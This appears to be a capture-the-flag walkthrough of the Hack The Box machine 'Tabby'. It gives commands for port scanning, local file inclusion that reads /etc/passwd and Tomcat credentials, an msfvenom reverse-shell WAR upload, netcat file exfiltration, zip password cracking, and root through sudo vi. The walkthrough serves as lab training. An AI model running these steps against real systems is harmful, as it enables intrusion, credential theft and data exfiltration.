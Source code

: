 1. nmap

nmap -sV -sC -Pn -T4 -v -p- --min-rate=10000 10.10.10.194
Output: nmap-output.txt

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 338ABBB5EA8D80B9869555ECA253D49D
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Went to 10.10.10.194 on Firefox

- Only 1 link "working" --> Click on `news`, sent to http://megahosting.htb/news.php?file=statement

Options

gobuster - running
wfuzz txt files - nothing
wfuzz php- nothing
wfuzz with no file extension - just had the "statement" file.
Statement:

We apologise to all our customers for the previous data breach.

We have changed the site to remove this tool, and have invested heavily in more secure servers

dirsearch
dirsearch -u 10.10.10.194 -e *
Output: dirsearch-output.txt

-- I see a htaccess-marco
Let's try marco as the username for hydra.

kali@kali:~/labs/hackthebox/Tabby/files$ hydra -l marco -P /usr/share/wordlists/rockyou.txt -t 4 ssh://10.10.10.194
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-02 17:23:47
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.10.194:22/
[ERROR] target ssh://10.10.10.194:22/ does not support password authentication (method reply 4).

So must be through SSH key only.

wfuzz 10.10.10.194/news.php?file=FUZZ

Tried Local File Inclusion (LFI):

http://10.10.10.194/news.php?file=../../../../../etc/passwd

Got back the file!
Output: passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
`_`apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash

Found a user "ash"

Go to 10.10.10.194:8080:
Output - 8080-output.txt

view-source:http://10.10.10.194/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
Output: tomcat-users.xml

We have:
username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"

Type that in to http://10.10.10.194:8080/host-manager/html
Then go to Server Status

Server Information
Tomcat Version 	JVM Version 	JVM Vendor 	OS Name 	OS Version 	OS Architecture 	Hostname 	IP Address
Apache Tomcat/9.0.31 (Ubuntu) 	11.0.7+10-post-Ubuntu-3ubuntu1 	Ubuntu 	Linux 	5.4.0-31-generic 	amd64 	tabby 	127.0.1.1

Tried:
https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
-- Tomcat War Deployer Script failed
-- Tomcat Manager Authenticated Upload Code Execution failed (incorrect credentials)
-- Generate .war Format Backdoor:
1. Create Payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f WAR > exploit.war

2. Upload to 8080 using https://gist.github.com/pete911/6111816, https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00

url --user 'tomcat:$3cureP4s5w0rd123!' --upload-file exploit.war "http://megahosting.htb:8080/manager/text/deploy?path=/exploit.war&update=true"

3. Run nc -lvnp 4444 on another terminal

4. Run curl "http://megahosting.htb:8080/exploit.war/"

5. Reverse shell!
rows 54; columns 114;
Ctrl+Z
stty raw -echo
fg
reset

Found a backup zip that was password protected.

To Download:

Victim Machine
nc 10.10.14.24 6666 -w 3 < 16162020_backup.zip

Kali
nc -lvnp 6666 > backup.zip

To crack password:
fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt backup.zip

Output: PASSWORD FOUND!!!!: pw == admin@it

But...nothing inside the backup file.

---
Noticed something: ash owns backup file. So maybe that is ash's password?
su ash
admin@it

Worked!

ash@tabby:~$ cat user.txt
e3b86d6d2c0bcea45bf86feeeab26433

ash@tabby:/var/www/html/files$ sudo -l
Matching Defaults entries for ash on tabby:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ash may run the following commands on tabby:
    (ALL) NOPASSWD: ALL

Found a linuxprivchecker.py in home folder.
Ran, found you can do

sudo vi
:!bash

and you're root!

root@tabby:/home/ash# cat /root/root.txt
9c3dde8c0a87c37656f7450208ad08ee
